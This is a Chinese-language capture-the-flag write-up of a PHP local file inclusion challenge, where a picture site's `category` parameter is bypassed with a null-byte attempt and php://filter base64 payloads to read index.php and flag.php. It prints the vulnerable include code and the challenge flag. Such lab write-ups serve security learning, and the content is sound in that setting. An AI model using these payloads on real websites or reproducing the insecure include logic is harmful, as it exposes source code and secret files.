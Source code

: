 ![[Pasted image 20221115084857.png]]

---
首页长这样

![[Pasted image 20221115084917.png]]

按下`WOOFERS`后访问
```php
/index.php?category=woofers
```
并且随机显示一张小狗的图片

![[Pasted image 20221115085147.png]]

按下`MEOWERS`后访问
```php
/index.php?category=meowers
```
并且随机显示一张小猫的图片

![[Pasted image 20221115085322.png]]

---
尝试对`category`进行修改
```php
/index.php?category=123
```
> Sorry, we currently only support woofers and meowers.

```php
/index.php?category=1woofers
```
  
> **Warning**: include(1woofers.php): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **37**  
  
> **Warning**: include(): Failed opening '1woofers.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

说明`category`的参数会经过一次是否包含`woofers`或`meowers`的检查，接着被加上`.php`后缀传给`include`函数进行包含

---
尝试使用`%00`进行截断
```php
/index.php?category=flag.php%00woofers
```
> **Warning**: include(): Failed opening 'flag.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

发现并不能读取到

尝试使用`php://filter`伪协议对`index.php`进行读取

使用一个`php://filter`伪协议的`trick`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=index
```

返回了`base64`编码后的`index.php`
```php

<?php
$file = $_GET['category'];

if(isset($file))
{
	if(strpos($file, "woofers") !== false || strpos($file, "meowers") !== false || strpos($file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
和预想的后端实现一致，不过`index`不出现在第一个位置上就不会被ban，所以上面的`trick`其实可有可无

尝试直接读取`flag.php`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=flag
```

```php
<!-- Can you read this flag? -->
<?php
 // flag{a8e44af0-53eb-441c-b549-8a5a50523ffe}
?>
```
终于做到水题啦QwQ

#PHP #Web #伪协议 #bypass #encoding #LFI 